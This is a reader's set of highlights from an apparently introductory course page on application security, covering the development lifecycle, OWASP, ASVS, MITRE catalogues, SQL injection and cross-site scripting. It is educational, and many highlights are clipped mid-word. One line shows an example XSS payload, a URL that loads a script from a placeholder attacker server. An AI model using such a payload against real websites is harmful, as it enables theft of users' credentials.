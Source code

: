 # þÿTopic 19   Application Security: View as Single Page | OU Online

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/media/reader/parsed_document_assets/298537943/IhCZZuzi3rpRSkjl-saqotf0pDlOgfem817rCL4_Vws-cove_IgR4HRU.png)

## Metadata
- Author: [[readwise.io]]
- Full Title: þÿTopic 19   Application Security: View as Single Page | OU Online
- Category: #articles
- Summary: Application security (AppSec) focuses on identifying and fixing vulnerabilities in software to prevent cyber threats. It is essential for both developers and users to understand these security measures, as they help protect sensitive data and maintain software integrity. Resources like the OWASP Top Ten and Application Security Verification Standard (ASVS) provide guidance on best practices for secure coding and application development.
- URL: https://readwise.io/reader/document_raw_content/298537943

## Highlights
- Application security (AppSec) is at its highest level the practice concerned with both identifying and removing vulnerabilities within software applications.
- a key foundation of software design
- part of the software development lifecycle (SDLC).
- wider cybersecurity awareness has demanded a clearer, more attentive focus on preventative measures
- s DevOps and CD/CI (continuous delivery/continuous integration)
- an application is only part of the equation to provide a secure environment: there is a need to develop a secure environment or infrastructure
- The application is a gateway between the end user and the organisational infrastructure;
- n a possible target f
- e is not only a financial component to wanting to ensure software is secure, but also to avoid irreparable brand damag
- being involved in a data breach can lead to privacy concerns,
- tasked with creating applications
- Developers should adhere to a software development lifecycle (SDLC)
- the engagement to obtain the requirements
- Developers can further categorise requirements as either functional or non-functional.
- the details of the project are documented, agreed and finalised
- allows the effort to be planned
- the point where the ‘go ahead’ is given
- discuss design documentation, fine tuning it where needed, to ensure the vision of the application aligns with the requirements
- Design documentation c
- development team will raise concerns
- d the more hands-on stage,
- adhere to the necessary best practices
- While testing is seen as a separate phase, developers should be employing testing practices along with developing the application.
- e complex and requires lots of documentation
- Repetition is vital at this stage to ensure that the tests and their results are repeatable
- Before the application is made fully available, is it good practice to commission a beta release
- Recently, game developers have begun to normalise the release of alpha and beta test phases
- While the term ‘deployment’ can seem final, the truth is that software must be continuously maintained
- The Open Worldwide Application Security Project (OWASP) is a non-profit organisation that is community led with individuals working towards a common goal – improving application security.
- building a global community that secures software through education,
- t OWASP have created a summative standard to help professionals get a quick glance of what security risks developers should be aware of
- the names help developers to address at a high level what issues they need to be aware of
- Level 1 is the basic expectation
- Level 2 is more relevant to applications that deal with B2B
- sensitive personal data.
- Level 3 is the highest level
- s military or critical infrastructur
- It would be fair to assume that developers should be aiming to meet the requirements for Level 1 verification as a minimum
- The standard is open source and covered by a creative commons license
- it would be good practice to modify and adapt the standard on each use to suit the project.
- Finally, why do you even need to use the standard at all? The simple answer is to help ensure the software you develop meets the required standards ensuring confidence
- another well- known entity: MITRE.
- CWE
- community driven project that lists the more common software and hardware weaknesses f
- he CVE (
- known vulnerabilities to help catalogue and to act
- for academics and security professionals
- CAPEC
- ) lists the more common and more importantly publicly known attack patterns to help security professionals to understand
- Authentication and authorisation:
- Logging: W
- Encryption
- Testing:
- Data processing:
- SQL injection (SQLi)
- An SQL injection is a code-based injection method that is used to retrieve and modify data held within an SQL database
- input SQL code into a text box that will query the database.
- Cross-site scripting (XSS)
- a client-side injection attack,
- takes advantage of using malicious JavaScript code in the web browser to steal credentials or cause issues for the user navigating the website
- visiting a website provided in a phishing email
- visiting a website that contains malicious scripts activated
- http://example.com/user?id=<script src="http:\\MY_WEBSERVER\SOME_BAD_SCRIPT.js"</script>
- prevent this by sanitising and validating input b
- Write effective comments
- Use clear and concise variable and function names
- Code indentation is crucial
- DRY – Don’t Repeat Yourself.
